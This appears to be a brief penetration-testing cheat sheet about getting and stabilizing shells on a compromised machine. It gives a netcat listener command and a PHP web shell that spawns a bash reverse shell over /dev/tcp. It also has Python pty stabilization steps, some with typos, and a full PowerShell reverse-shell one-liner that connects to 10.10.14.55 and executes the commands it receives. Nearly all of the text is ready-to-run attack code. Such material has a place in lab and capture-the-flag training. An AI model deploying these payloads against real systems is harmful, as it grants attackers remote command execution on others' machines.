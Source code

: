 For kali Shell scripts:
```
/usr/share/webshells
```
### Reverse Shell listener
```shell
nc -lvnp 4444
# Windows Reverse Shell
```
### PHP Web Shell
``` php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your_kali_ip>/4444 0>&1'"); ?>
```
# Shell Stabilization

### Python3
Stabilize to bin/bash
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<Ctrl+Z>
stty raw -echo;fg
```
or
``` bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-255color
alis ll='clear ; ls -lsaht --color=auto'
<Ctrl+Z>
stty raw -echo; fg ; reset
stty cloumns 200 rows 200
```
### Webshell -> Reverse shell
``` powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.55',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```